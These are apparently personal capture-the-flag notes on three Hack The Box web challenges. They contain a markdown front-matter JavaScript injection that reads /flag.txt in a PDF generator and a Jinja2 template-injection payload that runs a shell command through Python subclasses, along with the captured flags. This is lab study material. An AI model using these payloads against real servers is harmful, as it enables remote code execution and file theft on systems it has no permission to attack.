 # blinker fluids htb


examining the code we can see in the docker file

```
# Add flag
COPY flag.txt /flag.txt
```
and we see a fake flag for testing as well.

while creating pdf we see

```
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 

```
https://heinandre.no/htb-cyber-apocalypse-2022/web/blinker-fluids/

first we look at the databases and imports.
we see any templating engine then we can try and inject.

while trying iframe injection I was able to inject an iframe but no flag text file still.


```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---

```
HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}

# templated htb

when we go to http://159.65.58.189:31882/

we can see that site is still under construction and uses jinja templates

so straight away template injection comes to mind.

but need to run dirbuster to get to any good sites.

https://ireadyoulearn.info/2021/06/19/server-side-template-injection-hack-the-box-walkthrough/

trying with /config

```
Error 404

The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```

```
{{''.__class__.__mro__[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

# phonebook

after doing passwird bruteforcing it worked.
